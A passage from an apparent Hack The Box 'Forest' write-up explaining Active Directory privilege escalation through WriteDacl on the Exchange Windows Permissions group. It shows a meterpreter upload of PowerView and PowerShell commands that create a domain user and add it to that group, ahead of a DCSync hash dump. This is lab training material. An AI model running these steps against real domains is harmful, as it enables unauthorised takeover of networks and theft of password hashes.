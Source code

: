 As you can see, there is indeed a path for us to escalate our privileges. The main focus will be on the edge between `EXCHANGE WINDOWS PERMISSION@HTB.LOCAL` and HTB.LOCAL. If you right-click on the edge and click on Help, more information of the `WriteDacl` privilege will be given.

{% highlight raw %}
The members of the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL. With write access to the target object's DACL, you can grant yourself any privilege you want on the object.
{% endhighlight %}

According to this [post](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/), the `WriteDacl` privilege allows us to perform `DCSync` operations, which somehow allows us to retrieve hashed passwords from the Active Directory. Hence, we will need to add a user to the `EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL`.

# Exploitation

First we will need to upload [`PowerView`](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1), which is a module that I use that contains many useful `Powershell` commands for offensive operations.

{% highlight raw %}
meterpreter > upload /root/Downloads/PowerView.ps1 .
[*] uploading  : /root/Downloads/PowerView.ps1 -> .
[*] uploaded   : /root/Downloads/PowerView.ps1 -> .\PowerView.ps1
{% endhighlight %}

Back to the powershell shell, we will import it in.
{% highlight powershell %}
Import-Module .\PowerView.ps1
{% endhighlight %}

Next we will create a new user and add him to the `EXCHANGE WINDOWS PERMISSIONS` group.
{% highlight powershell %}
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
New-DomainUser -SamAccountName rizemon -AccountPassword $UserPassword
Add-DomainGroupMember -Identity "Exchange Windows Permissions" -Members 'rizemon'
{% endhighlight %}

![](/assets/images/forest3.png)
